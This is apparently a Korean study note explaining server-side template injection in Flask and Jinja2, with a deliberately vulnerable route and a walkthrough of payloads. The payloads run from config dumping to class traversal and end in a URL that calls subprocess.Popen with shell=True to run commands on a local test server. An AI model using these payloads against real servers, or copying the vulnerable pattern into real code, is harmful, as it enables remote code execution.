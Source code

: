 # 배경
Server Side Template Injection의 약자
동적 웹페이지를 구현할 때, 템플릿을 사용하면 편리한데,
템플릿이 서버측에서 해석이 되기 때뭉에 취약점이 발생한다.
eval()랑 비슷할 정도로 취약함

```python
@app.route('/')
def home():
	title="제목"
	content = request.args.get('content')
	thisistemp='''
	<!DOCTYPE html>
	<html>
		<head>
			<meta charset="utf-8">
			<title>SSTI</title>
		</head>
		<body>
			<h1>{{title}}</h1>
			<h2>%s</h2>
		</body>
	</html>'''%content				#vuln!
	return render_template_string(thisistemp, title=title)
```

위 flask 코드는 입력값을 그대로 템플릿에 넣어서 문제가 발생한다.
title변수가 템플릿에서 사용할 수 있는 것과 마찬가지로
사용자에게 입력받은 데이터에 {{}}로 감싸고 그 안에 악의적인 코드가 들어갈 수 있다.

예를 들어 content에 `{{7*7}}` 을 넣으면 `{{7*7}}` 가 아닌 49가 출력된다.

Flask 템플릿 엔진은 Jinja2라는 템플릿 엔진을 사용
Jinja2는 기본적으로 HTML 템플릿을 렌더링하는 데 사용되지만, 
중괄호 두 개로 둘러싸인 표현식은 파이썬 코드로 해석되어 실행



# exploit 예시

다음은 config 내부에 있는 값들을 딕셔너리 형태로 출력시켜준다

	{{config.items()}}

os 라이브러리 내부에는 popen,os등의 실행 함수가 들어있기 때문에 사용할 수 있으면 좋다.
popen은 새로운 파이프라인을 만들어서 그 안에서 커널 명령어를 사용할 수 있다.

os의 config딕셔너리가 추가시켜준다.

	{{config.from_object('os')}}*

사용할 수 있는 클래스를 검색할 수 있게 만든다.

	{{''.__class__.__mro__}}

서브클래스 조회

	{{''.__class__.__mro__[1].__subclasses__()}}

매우 많은 클래스들과 중간에

	concurrent.futures._base._AcquireFutures'>, <class 'concurrent.futures._base.Future'>, <class 'concurrent.futures._base.Executor'>, <class 'subprocess.STARTUPINFO'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class 'asyncio.events.Handle'>, <class 'asyncio.events.AbstractServer'>, <class 'asyncio.events.AbstractEventLoop'>, <class 'asyncio.events.AbstractEventLoopPolicy'>, <class

popen클래스를 찾을 수 있는데, 슬라이싱을 통해서 popen의 위치를 찾을 수 있다.

	`http://127.0.0.1:8080/?content={{%27%27.__class__.__mro__[1].__subclasses__()[202](%27ls%27,shell=True,stdout=-1).communicate()}}`


# subprocess.Popen 인덱스 찾기 스크립트
```python
with open("list.txt", "r") as f:
    line = f.readline()

classes = [item.strip() for item in line.split(",")]

try:
    index = classes.index("<class 'subprocess.Popen'>")
    print(f"'popen' is at index {index}")
except ValueError:
    print("'popen' not found in the list")
```
